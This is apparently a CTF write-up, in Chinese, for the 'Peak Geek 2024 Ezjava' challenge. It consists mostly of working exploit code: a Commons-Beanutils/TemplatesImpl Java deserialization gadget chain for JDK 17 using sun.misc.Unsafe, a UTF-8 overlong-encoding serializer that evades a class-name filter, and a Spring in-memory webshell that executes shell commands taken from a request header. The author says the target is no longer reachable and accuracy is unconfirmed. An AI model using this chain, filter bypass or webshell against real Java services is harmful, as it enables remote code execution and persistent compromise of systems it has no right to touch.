



+++
title= "巅峰极客2024 Ezjava"
slug= "peak-geek-2024-ezjava"
description= ""
date= "2025-11-30T13:39:02+08:00"
lastmod= "2025-11-30T13:39:02+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

黑盒打 Commons-Beanutils 1.9+ 自带 Commons-Collections3.2.1，高版本 jdk17，用`sun.misc.Unsafe`来反射。

pom.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>ezjava</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>17</maven.compiler.source>
        <maven.compiler.target>17</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>

    <dependencies>
        <dependency>
            <groupId>commons-beanutils</groupId>
            <artifactId>commons-beanutils</artifactId>
            <version>1.9.2</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>3.29.2-GA</version>
        </dependency>

        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-web</artifactId>
            <version>5.3.20</version>
            <scope>provided</scope>
        </dependency>

        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>javax.servlet-api</artifactId>
            <version>4.0.1</version>
            <scope>provided</scope>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.8.1</version>
                <configuration>
                    <source>17</source>
                    <target>17</target>
                    <encoding>UTF-8</encoding>
                    <compilerArgs>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xml.internal.serializer=ALL-UNNAMED</arg>
                        <arg>--add-exports=java.xml/com.sun.org.apache.xml.internal.dtm=ALL-UNNAMED</arg>
                    </compilerArgs>
                </configuration>
            </plugin>
        </plugins>
    </build>
</project>
```



由于 jdk17的强封装模式，需要 add VM option：

```java
--add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-exports=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-exports=jdk.unsupported/sun.misc=ALL-UNNAMED
```

有CB依赖直接打就行了 

```java
package org.ezjava;

import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.misc.Unsafe;

import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class poc {
    public static void main(String[] args) throws Exception {
        patchModule(poc.class);

        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get("org.ezjava.Evil");
        evilClass.setName("Evil" + System.nanoTime());
        byte[] bytecodes = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{bytecodes});
        setFieldValue(templates, "_name", "Pwn");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);


        queue.add("1");
        queue.add("1");

        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{templates, templates});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        ByteArrayInputStream bais = new ByteArrayInputStream(barr.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        Unsafe unsafe = getUnsafe();
        long offset = unsafe.objectFieldOffset(field);
        unsafe.putObject(obj, offset, value);
    }

    private static Unsafe getUnsafe() throws Exception {
        Field f = Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        return (Unsafe) f.get(null);
    }

    private static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        return field;
    }
}
```

调用栈

```java
at org.apache.commons.beanutils.PropertyUtilsBean.invokeMethod(PropertyUtilsBean.java:2109)
at org.apache.commons.beanutils.PropertyUtilsBean.getSimpleProperty(PropertyUtilsBean.java:1267)
at org.apache.commons.beanutils.PropertyUtilsBean.getNestedProperty(PropertyUtilsBean.java:808)
at org.apache.commons.beanutils.PropertyUtilsBean.getProperty(PropertyUtilsBean.java:884)
at org.apache.commons.beanutils.PropertyUtils.getProperty(PropertyUtils.java:464)
at org.apache.commons.beanutils.BeanComparator.compare(BeanComparator.java:163)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:712)
at java.util.PriorityQueue.heapify(PriorityQueue.java:734)
at java.util.PriorityQueue.readObject(PriorityQueue.java:801)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at jdk.internal.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:77)
at jdk.internal.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:568)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1104)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2434)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2268)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1744)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:514)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:472)
at org.ezjava.poc.main(poc.java:46)
```



题目过滤了`org.apache`字样，使用 UTF-8 Overlong Encoding 绕过，改改大佬的demo https://github.com/Whoopsunix/utf-8-overlong-encoding/blob/main/src/main/java/com/ppp/UTF8OverlongObjectOutputStream.java

```java
package com.ppp;

import com.ppp.utils.Reflections;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;

/**
 * 1ue demo
 */

public class UTF8OverlongObjectOutputStream extends ObjectOutputStream {
    public static HashMap<Character, int[]> map = new HashMap<Character, int[]>() {{
        put('.', new int[]{0xc0, 0xae});
        put(';', new int[]{0xc0, 0xbb});
        put('$', new int[]{0xc0, 0xa4});
        put('[', new int[]{0xc1, 0x9b});
        put(']', new int[]{0xc1, 0x9d});
        put('a', new int[]{0xc1, 0xa1});
        put('b', new int[]{0xc1, 0xa2});
        put('c', new int[]{0xc1, 0xa3});
        put('d', new int[]{0xc1, 0xa4});
        put('e', new int[]{0xc1, 0xa5});
        put('f', new int[]{0xc1, 0xa6});
        put('g', new int[]{0xc1, 0xa7});
        put('h', new int[]{0xc1, 0xa8});
        put('i', new int[]{0xc1, 0xa9});
        put('j', new int[]{0xc1, 0xaa});
        put('k', new int[]{0xc1, 0xab});
        put('l', new int[]{0xc1, 0xac});
        put('m', new int[]{0xc1, 0xad});
        put('n', new int[]{0xc1, 0xae});
        put('o', new int[]{0xc1, 0xaf}); // 0x6f
        put('p', new int[]{0xc1, 0xb0});
        put('q', new int[]{0xc1, 0xb1});
        put('r', new int[]{0xc1, 0xb2});
        put('s', new int[]{0xc1, 0xb3});
        put('t', new int[]{0xc1, 0xb4});
        put('u', new int[]{0xc1, 0xb5});
        put('v', new int[]{0xc1, 0xb6});
        put('w', new int[]{0xc1, 0xb7});
        put('x', new int[]{0xc1, 0xb8});
        put('y', new int[]{0xc1, 0xb9});
        put('z', new int[]{0xc1, 0xba});
        put('A', new int[]{0xc1, 0x81});
        put('B', new int[]{0xc1, 0x82});
        put('C', new int[]{0xc1, 0x83});
        put('D', new int[]{0xc1, 0x84});
        put('E', new int[]{0xc1, 0x85});
        put('F', new int[]{0xc1, 0x86});
        put('G', new int[]{0xc1, 0x87});
        put('H', new int[]{0xc1, 0x88});
        put('I', new int[]{0xc1, 0x89});
        put('J', new int[]{0xc1, 0x8a});
        put('K', new int[]{0xc1, 0x8b});
        put('L', new int[]{0xc1, 0x8c});
        put('M', new int[]{0xc1, 0x8d});
        put('N', new int[]{0xc1, 0x8e});
        put('O', new int[]{0xc1, 0x8f});
        put('P', new int[]{0xc1, 0x90});
        put('Q', new int[]{0xc1, 0x91});
        put('R', new int[]{0xc1, 0x92});
        put('S', new int[]{0xc1, 0x93});
        put('T', new int[]{0xc1, 0x94});
        put('U', new int[]{0xc1, 0x95});
        put('V', new int[]{0xc1, 0x96});
        put('W', new int[]{0xc1, 0x97});
        put('X', new int[]{0xc1, 0x98});
        put('Y', new int[]{0xc1, 0x99});
        put('Z', new int[]{0xc1, 0x9a});
    }};

    public UTF8OverlongObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    @Override
    protected void writeClassDescriptor(ObjectStreamClass desc) {
        try {
            String name = desc.getName();
            //        writeUTF(desc.getName());
            writeShort(name.length() * 2);
            for (int i = 0; i < name.length(); i++) {
                char s = name.charAt(i);
//            System.out.println(s);
                write(map.get(s)[0]);
                write(map.get(s)[1]);
            }
            writeLong(desc.getSerialVersionUID());
            byte flags = 0;
            if ((Boolean) Reflections.getFieldValue(desc, "externalizable")) {
                flags |= ObjectStreamConstants.SC_EXTERNALIZABLE;
                Field protocolField = ObjectOutputStream.class.getDeclaredField("protocol");
                protocolField.setAccessible(true);
                int protocol = (Integer) protocolField.get(this);
                if (protocol != ObjectStreamConstants.PROTOCOL_VERSION_1) {
                    flags |= ObjectStreamConstants.SC_BLOCK_DATA;
                }
            } else if ((Boolean) Reflections.getFieldValue(desc, "serializable")) {
                flags |= ObjectStreamConstants.SC_SERIALIZABLE;
            }
            if ((Boolean) Reflections.getFieldValue(desc, "hasWriteObjectData")) {
                flags |= ObjectStreamConstants.SC_WRITE_METHOD;
            }
            if ((Boolean) Reflections.getFieldValue(desc, "isEnum")) {
                flags |= ObjectStreamConstants.SC_ENUM;
            }
            writeByte(flags);
            ObjectStreamField[] fields = (ObjectStreamField[]) Reflections.getFieldValue(desc, "fields");
            writeShort(fields.length);
            for (int i = 0; i < fields.length; i++) {
                ObjectStreamField f = fields[i];
                writeByte(f.getTypeCode());
                writeUTF(f.getName());
                if (!f.isPrimitive()) {
                    Method writeTypeString = ObjectOutputStream.class.getDeclaredMethod("writeTypeString", String.class);
                    writeTypeString.setAccessible(true);
                    writeTypeString.invoke(this, f.getTypeString());
//                    writeTypeString(f.getTypeString());
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

改成

```java
package org.ezjava;

import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class UTF8OverlongObjectOutputStream extends ObjectOutputStream {

    public UTF8OverlongObjectOutputStream(OutputStream out) throws IOException {
        super(out);
    }

    @Override
    protected void writeClassDescriptor(ObjectStreamClass desc) throws IOException {
        try {
            String name = desc.getName();
            writeShort(name.length() * 2);

            for (int i = 0; i < name.length(); i++) {
                char s = name.charAt(i);
                int b1 = 0xC0 | ((s >> 6) & 0x1F);
                int b2 = 0x80 | (s & 0x3F);

                write(b1);
                write(b2);
            }

            writeLong(desc.getSerialVersionUID());

            byte flags = 0;
            if ((Boolean) getFieldValue(desc, "externalizable")) {
                flags |= ObjectStreamConstants.SC_EXTERNALIZABLE;
                Field protocolField = ObjectOutputStream.class.getDeclaredField("protocol");
                protocolField.setAccessible(true);
                int protocol = (Integer) protocolField.get(this);
                if (protocol != ObjectStreamConstants.PROTOCOL_VERSION_1) {
                    flags |= ObjectStreamConstants.SC_BLOCK_DATA;
                }
            } else if ((Boolean) getFieldValue(desc, "serializable")) {
                flags |= ObjectStreamConstants.SC_SERIALIZABLE;
            }
            if ((Boolean) getFieldValue(desc, "hasWriteObjectData")) {
                flags |= ObjectStreamConstants.SC_WRITE_METHOD;
            }
            if ((Boolean) getFieldValue(desc, "isEnum")) {
                flags |= ObjectStreamConstants.SC_ENUM;
            }
            writeByte(flags);

            ObjectStreamField[] fields = (ObjectStreamField[]) getFieldValue(desc, "fields");
            writeShort(fields.length);

            for (int i = 0; i < fields.length; i++) {
                ObjectStreamField f = fields[i];
                writeByte(f.getTypeCode());
                writeUTF(f.getName());
                if (!f.isPrimitive()) {
                    Method writeTypeString = ObjectOutputStream.class.getDeclaredMethod("writeTypeString", String.class);
                    writeTypeString.setAccessible(true);
                    writeTypeString.invoke(this, f.getTypeString());
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
            super.writeClassDescriptor(desc);
        }
    }

    private static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Class<?> clazz = obj.getClass();
        Field field = null;
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                if (field != null) break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        if (field != null) {
            field.setAccessible(true);
            return field.get(obj);
        }
        return null;
    }
}
```

再将其加入 poc

```java
package org.ezjava;

import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import sun.misc.Unsafe;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class poc {
    public static void main(String[] args) throws Exception {
        patchModule(poc.class);
        patchModule(UTF8OverlongObjectOutputStream.class);

        ClassPool pool = ClassPool.getDefault();
        CtClass evilClass = pool.get("org.ezjava.Evil");
        evilClass.setName("Evil" + System.nanoTime());
        byte[] bytecodes = evilClass.toBytecode();

        TemplatesImpl templates = new TemplatesImpl();

        setFieldValue(templates, "_bytecodes", new byte[][]{bytecodes});
        setFieldValue(templates, "_name", "Pwn");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);

        queue.add("1");
        queue.add("1");

        setFieldValue(queue, "queue", new Object[]{templates, templates});
        setFieldValue(comparator, "property", "outputProperties");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        UTF8OverlongObjectOutputStream oos = new UTF8OverlongObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        byte[] payloadBytes = barr.toByteArray();

        try (FileOutputStream fos = new FileOutputStream("payload.bin")) {
            fos.write(payloadBytes);
        }

        System.out.println(Base64.getEncoder().encodeToString(payloadBytes));

        ByteArrayInputStream bais = new ByteArrayInputStream(payloadBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
    }

    private static void patchModule(Class<?> clazz) {
        try {
            Unsafe unsafe = getUnsafe();
            Module javaBaseModule = Object.class.getModule();
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.putObject(clazz, offset, javaBaseModule);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = getField(obj.getClass(), fieldName);
        Unsafe unsafe = getUnsafe();
        long offset = unsafe.objectFieldOffset(field);
        unsafe.putObject(obj, offset, value);
    }

    private static Unsafe getUnsafe() throws Exception {
        Field f = Unsafe.class.getDeclaredField("theUnsafe");
        f.setAccessible(true);
        return (Unsafe) f.get(null);
    }

    private static Field getField(Class<?> clazz, String fieldName) {
        Field field = null;
        while (clazz != null) {
            try {
                field = clazz.getDeclaredField(fieldName);
                break;
            } catch (NoSuchFieldException e) {
                clazz = clazz.getSuperclass();
            }
        }
        return field;
    }
}
```



无回显不出网，再打一个 Spring echo 的内存马

```java
package org.ezjava;

import java.io.InputStream;
import java.io.Writer;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Scanner;
import sun.misc.Unsafe;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class SpringEcho extends AbstractTranslet {
    private String getReqHeaderName() {
        return "Cache-Control-Hbobnf";
    }

    public SpringEcho() throws Exception {
        try {
            Class unsafeClass = Class.forName("sun.misc.Unsafe");
            Field unsafeField = unsafeClass.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe)unsafeField.get((Object)null);
            Method getModuleMethod = Class.class.getDeclaredMethod("getModule");
            Object module = getModuleMethod.invoke(Object.class);
            Class cls = SpringEcho.class;
            long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(cls, offset, module);
        } catch (Exception var9) {
        }

        this.run();
    }

    public void run() {
        ClassLoader classLoader = Thread.currentThread().getContextClassLoader();

        try {
            Object requestAttributes = this.invokeMethod(classLoader.loadClass("org.springframework.web.context.request.RequestContextHolder"), "getRequestAttributes");
            Object request = this.invokeMethod(requestAttributes, "getRequest");
            Object response = this.invokeMethod(requestAttributes, "getResponse");
            Method getHeaderM = request.getClass().getMethod("getHeader", String.class);
            String cmd = (String)getHeaderM.invoke(request, this.getReqHeaderName());
            if (cmd != null && !cmd.isEmpty()) {
                Writer writer = (Writer)this.invokeMethod(response, "getWriter");
                writer.write(this.exec(cmd));
                writer.flush();
                writer.close();
            }
        } catch (Exception var8) {
        }

    }

    private String exec(String cmd) {
        try {
            boolean isLinux = true;
            String osType = System.getProperty("os.name");
            if (osType != null && osType.toLowerCase().contains("win")) {
                isLinux = false;
            }

            String[] cmds = isLinux ? new String[]{"/bin/sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = (new Scanner(in)).useDelimiter("\\a");

            String execRes;
            for(execRes = ""; s.hasNext(); execRes = execRes + s.next()) {
            }

            return execRes;
        } catch (Exception var8) {
            return var8.getMessage();
        }
    }

    private Object invokeMethod(Object targetObject, String methodName) throws NoSuchMethodException, IllegalAccessException, InvocationTargetException {
        return this.invokeMethod(targetObject, methodName, new Class[0], new Object[0]);
    }

    private Object invokeMethod(Object obj, String methodName, Class[] paramClazz, Object[] param) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        Class clazz = obj instanceof Class ? (Class)obj : obj.getClass();
        Method method = null;
        Class tempClass = clazz;

        while(method == null && tempClass != null) {
            try {
                if (paramClazz == null) {
                    Method[] methods = tempClass.getDeclaredMethods();

                    for(int i = 0; i < methods.length; ++i) {
                        if (methods[i].getName().equals(methodName) && methods[i].getParameterTypes().length == 0) {
                            method = methods[i];
                            break;
                        }
                    }
                } else {
                    method = tempClass.getDeclaredMethod(methodName, paramClazz);
                }
            } catch (NoSuchMethodException var12) {
                tempClass = tempClass.getSuperclass();
            }
        }

        if (method == null) {
            throw new NoSuchMethodException(methodName);
        } else {
            method.setAccessible(true);
            if (obj instanceof Class) {
                try {
                    return method.invoke((Object)null, param);
                } catch (IllegalAccessException var10) {
                    throw new RuntimeException(var10.getMessage());
                }
            } else {
                try {
                    return method.invoke(obj, param);
                } catch (IllegalAccessException var11) {
                    throw new RuntimeException(var11.getMessage());
                }
            }
        }
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}
}
```

由于大头哥的 docker 已经用不了了，所以我并不能确保这篇文章是完全准确的，学习一下而已，而且并不是非要打 CB 链，我看 @X1r0z 师傅是打的 CC6，参考中的文章可以好好看看🤓

> https://exp10it.io/posts/dfjk-2024-preliminary-web-writeup/#easy_java
>
> https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html
>
> https://forum.butian.net/share/3748
